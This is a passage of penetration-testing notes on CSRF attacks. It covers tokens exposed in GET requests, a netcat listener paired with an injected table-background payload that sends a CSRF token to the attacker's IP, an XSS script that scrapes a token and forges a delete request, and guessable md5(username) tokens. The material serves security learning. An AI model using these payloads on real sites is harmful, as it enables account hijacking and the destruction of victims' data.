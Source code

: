 Once a user load this file, without noticing anything his password will be change.

## GET-based 

If all the values are being send with a GET method we can see them in the URL. For example, we could see the **CSRF token** 


## POST-based 

For example, take a page that have the CSRF *hidden* during a POST request. We can try to break, and get the token:
```console
zero@pio$ nc -lvnp 9000
```

If we can write on the request, for example: `/app/delete/<your-email>` and change **<your-email>**, we can replace by:
```
<table%20background='%2f%2f<OUR IP>:<PORT>%2f
```

In our netcat we will receive the token.

## XSS & CSRF Chaining 

Sometimes, even if we manage to bypass CSRF protections, we may not be able to create cross-site requests due to some sort of same origin/same site restriction. If this is the case, we can try chaining vulnerabilities to get the end result of CSRF. We can execute the CSRF inside `<script>` brackets, for example:
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/delete/EMAIL',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/delete', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token);
};
</script>
```

## Exploiting Weak CSRF Tokens 

ften, web applications do not employ very secure or robust token generation algorithms. An example is an application that generates CSRF tokens as follows: `md5(username)`.  We can register an account, look into the requests to identify a CSRF token, and then check if the MD5 hash of the username (or other similar values) is equal to the CSRF token's value. 
